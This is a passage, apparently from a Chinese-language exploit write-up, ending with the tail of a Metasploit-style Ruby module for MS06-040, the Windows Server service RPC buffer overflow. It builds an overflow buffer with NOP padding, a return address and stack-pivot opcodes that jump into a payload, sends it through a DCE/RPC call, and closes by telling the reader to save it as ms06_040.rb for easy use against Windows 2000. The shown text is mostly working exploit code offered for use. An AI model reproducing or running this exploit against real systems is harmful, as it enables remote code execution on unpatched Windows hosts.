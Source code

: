 ```

		path = make_nops(0x318) + [target['Ret'][1]].pack('V') + 
		"\x04\xD0\xFD\x7F" * 5 +		# 可写地址(这里原本是崩溃函数传入的5个参数)
		"\x66\x81\xEC\x30\x04" +		# sub esp,430 (0x100 + 0x318 + 4 * 6 = 0x430 将esp指向payload起始)
		"\x8B\xC4" + 				# mov eax, esp
		"\xFF\xE4" +				# jmp esp
		"\x00\x00"				# Unicode结束符

		stub =	NDR.long(rand(0xffffffff)) +
			NDR.UnicodeConformantVaryingString('') +
			NDR.UnicodeConformantVaryingStringPreBuilt(path) +
			NDR.long(rand(250)+1) +
			NDR.UnicodeConformantVaryingStringPreBuilt(prefix) +
			NDR.long(rand(250)+1) +
			NDR.long(0)	

		begin
  			dcerpc.call(0x1f, stub, false)
			rescue Rex::Proto::DCERPC::Exceptions::NoResponse
			rescue => e
  			if e.to_s !~ /STATUS_PIPE_DISCONNECTED/
    			  raise e
  			end
    	        end

	       handler
    	       disconnect

  	end  
end
```

以上则是利用脚本，保存为ms06_040.rb，主要是构造shellcode(在path做ROP，跳到prefix中执行payload)，在Windows 2000下利用起来比较容易，不再作解释
